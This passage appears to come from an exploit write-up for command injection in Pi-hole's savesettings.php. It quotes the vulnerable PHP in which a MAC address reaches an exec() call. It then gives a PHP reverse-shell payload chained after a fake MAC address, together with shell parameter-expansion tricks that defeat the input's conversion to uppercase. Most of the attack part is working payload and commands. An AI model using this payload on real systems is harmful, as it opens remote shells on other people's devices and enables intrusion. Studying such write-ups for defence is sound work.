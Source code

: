 __[lines 542-550](demp/savesettings.php#L542):__ then check only [html special characters](https://www.php.net/manual/en/function.htmlspecialchars.php) and converts the input to uppercase.
```
$mac = $_POST["AddMAC"];
if(!validMAC($mac))
{
	$error .= "MAC address (".htmlspecialchars($mac).") is invalid!<br>";
}
$mac = strtoupper($mac);
```

__[lines 588-592](dump/savesettings.php#L588):__ then adds the entry to DHCP using a pihole system command.
```
if(!strlen($error))
{
	exec("sudo pihole -a addstaticdhcp ".$mac." ".$ip." ".$hostname);
	$success .= "A new static address has been added";
}
```

__Exploit exception :__ MAC address input convert input data in upperCase letters and if we put shellcode in it. it converts all code in upperCase, As Linux commands are case sensitive, this would fail.

*the way to overcome this difficulty is to make use of __environment variables__ and __POSIX Shell__ Parameter Expansions.*

### Manual Exploit

#### payload Encoding 

__Reverse Shell Payload :__ `aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“tun0”,4141);exec(“/bin/sh -i <&3 >&3 2>&3”);’`

there are three peices in the payload

* __First__, MAC address `aaaaaaaaaaaa` use as it is.

* __Second__, environment variables, In the encoded shell command we define the $P, $H and $R shell parameters that contain their matching lower-case character with the following POSIX Shell Parameter Expansions:

__Example__

	❯ W=${PATH#/???/}
	echo $W
	bash:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
	❯ P=${W%%?????:*}
	echo $P
	p

__All variables:__

	W=${PATH#/???/}
	P=${W%%?????:}
	X=${PATH#/???/??}
	H=${X%%???:}
	Z=${PATH#:/??}
	R=${Z%%/}
